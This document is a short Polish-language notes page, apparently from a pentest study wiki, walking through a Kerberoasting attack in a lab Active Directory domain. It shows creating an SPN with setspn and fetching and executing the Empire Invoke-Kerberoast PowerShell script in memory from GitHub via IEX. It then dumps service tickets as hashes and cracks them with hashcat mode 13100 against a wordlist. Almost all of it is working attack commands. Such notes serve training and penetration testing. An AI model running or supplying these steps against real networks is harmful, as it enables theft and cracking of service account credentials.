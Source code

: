 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Invoke-Kerberoast

**Windows Server**

stworzenie jakiejkolwiek usługi sieciowej SPN = Service Principal Names dla użytkownika bob&#x20;

```
.\setspn.exe -s http/cyber.local:80 bob
```

podgląd opisu tej usługi

```
.\setspn.exe -T cyber.local -Q */*
```

**Win**

{% code overflow="wrap" fullWidth="true" %}
```
IEX(New-Object System.Net.WebClient).DownloadString(https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
```
{% endcode %}

przechwytywania ticketa i zapisywanie dla hashcata lub john i pozbycie sie dziwnych znaków

{% code fullWidth="true" %}
```
Invoke-Kerberoast -OutputFormat hashcat | % {$_.Hash} | Out-File -Encoding ASCII bilet_serwisowy_http
Invoke-Kerberoast -OutputFormat john | % {$_.Hash} | Out-File -Encoding ASCII bilet_serwisowy_http
```
{% endcode %}

**Kali**

zapisujemy hash do pliku tgs\_hash

crackowanie hasha - sprawdzamy w hashcat jaki numer ma nasz typ hasha

```
hashcat -h | less

hashcat -m 13100 tgs_hash /usr/share/wordlists/rockypu.txt
```
